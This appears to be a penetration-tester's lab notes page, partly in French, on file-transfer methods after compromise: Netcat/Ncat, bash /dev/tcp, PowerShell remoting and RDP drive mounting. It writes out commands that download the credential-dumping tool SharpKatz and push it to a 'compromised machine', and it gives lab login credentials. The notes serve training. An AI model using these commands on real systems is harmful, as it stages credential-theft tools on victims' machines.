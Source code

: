 # Miscellaneous File Transfer Methods

***

## <mark style="color:red;">Netcat</mark>

Netcat (nc) est un outil réseau polyvalent permettant de lire et d’écrire sur des connexions TCP ou UDP, souvent utilisé pour le transfert de fichiers, dont la version originale de 1995 a inspiré Nmap à créer Ncat, une réécriture moderne avec support de SSL, IPv6, proxys et plus encore.

### <mark style="color:blue;">File Transfer with Netcat and Ncat</mark>

The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target. Let's create an example and transfer a tool to our target.

We'll first start Netcat (`nc`) on the compromised machine, listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_\(stdin\)) using a single greater-than `>` followed by the filename, `SharpKatz.exe`.

<mark style="color:orange;">**NetCat - Compromised Machine - Listening on Port 8000**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```
{% endcode %}

<mark style="color:orange;">**Ncat - Compromised Machine - Listening on Port 8000**</mark>

{% code fullWidth="true" %}
```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
{% endcode %}

<mark style="color:orange;">**Netcat - Attack Host - Sending File to Compromised machine**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
mrroboteLiot@htb[/htb]$ # Example using Original Netcat
mrroboteLiot@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
{% endcode %}

<mark style="color:orange;">**Ncat - Attack Host - Sending File to Compromised machine**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
mrroboteLiot@htb[/htb]$ # Example using Ncat
mrroboteLiot@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
{% endcode %}

***

<mark style="color:orange;">**Attack Host - Sending File as Input to Netcat**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ # Example using Original Netcat
mrroboteLiot@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
{% endcode %}

<mark style="color:orange;">**Compromised Machine Connect to Netcat to Receive the File**</mark>

{% code fullWidth="true" %}
```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```
{% endcode %}

Let's do the same with Ncat:

<mark style="color:orange;">**Attack Host - Sending File as Input to Ncat**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ # Example using Ncat
mrroboteLiot@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
{% endcode %}

<mark style="color:orange;">**Compromised Machine Connect to Ncat to Receive the File**</mark>

{% code fullWidth="true" %}
```bash
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
{% endcode %}

***

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

<mark style="color:orange;">**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**</mark>

{% code fullWidth="true" %}
```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
{% endcode %}

***

## <mark style="color:red;">PowerShell Session File Transfer</mark>

<mark style="color:green;">**Définition et usage**</mark>

* Permet d'exécuter des scripts ou commandes sur un ordinateur distant via des sessions PowerShell
* Utilisé par les administrateurs pour gérer des ordinateurs distants et effectuer des transferts de fichiers

<mark style="color:green;">**Configuration par défaut**</mark>

* Crée automatiquement deux listeners : HTTP et HTTPS
* Ports par défaut : TCP/5985 (HTTP) et TCP/5986 (HTTPS)

**Prérequis d'accès** Pour créer une session PowerShell Remoting, il faut :

* Avoir un accès administrateur, OU
* Être membre du groupe `Remote Management Users`, OU
* Avoir des permissions explicites pour PowerShell Remoting dans la configuration de session

<mark style="color:orange;">**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**</mark>

{% code fullWidth="true" %}
```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```
{% endcode %}

{% code fullWidth="true" %}
```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```
{% endcode %}

Because this session already has privileges over `DATABASE01`, we don't need to specify credentials. In the example below, a session is created to the remote computer named `DATABASE01` and stores the results in the variable named `$Session`.

<mark style="color:orange;">**Create a PowerShell Remoting Session to DATABASE01**</mark>

{% code fullWidth="true" %}
```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
{% endcode %}

We can use the `Copy-Item` cmdlet to copy a file from our local machine `DC01` to the `DATABASE01` session we have `$Session` or vice versa.

<mark style="color:orange;">**Copy samplefile.txt from our Localhost to the DATABASE01 Session**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
{% endcode %}

<mark style="color:orange;">**Copy DATABASE.txt from DATABASE01 Session to our Localhost**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
{% endcode %}

***

## <mark style="color:red;">RDP</mark>.

<mark style="color:orange;">**Mounting a Linux Folder Using rdesktop**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
{% endcode %}

<mark style="color:orange;">**Mounting a Linux Folder Using xfreerdp**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
{% endcode %}

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Alternatively, from Windows, the native [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) remote desktop client can be used.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

After selecting the drive, we can interact with it in the remote session that follows.

Note: This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.

***
